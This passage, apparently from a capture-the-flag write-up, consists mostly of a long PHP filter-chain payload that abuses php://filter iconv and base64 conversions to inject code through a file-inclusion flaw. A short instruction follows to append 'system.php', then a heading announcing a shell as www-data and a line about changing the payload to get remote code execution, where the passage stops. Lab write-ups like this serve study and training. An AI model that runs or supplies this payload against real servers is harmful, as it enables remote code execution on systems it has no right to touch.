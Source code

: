```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
*(don't forget to add +system.php in the end)*

<img width="1383" height="716" alt="image" src="https://github.com/user-attachments/assets/04a81840-98c6-4f82-8799-f4d47c836978" />

## Shell as www-data

Change the payload to get RCE:
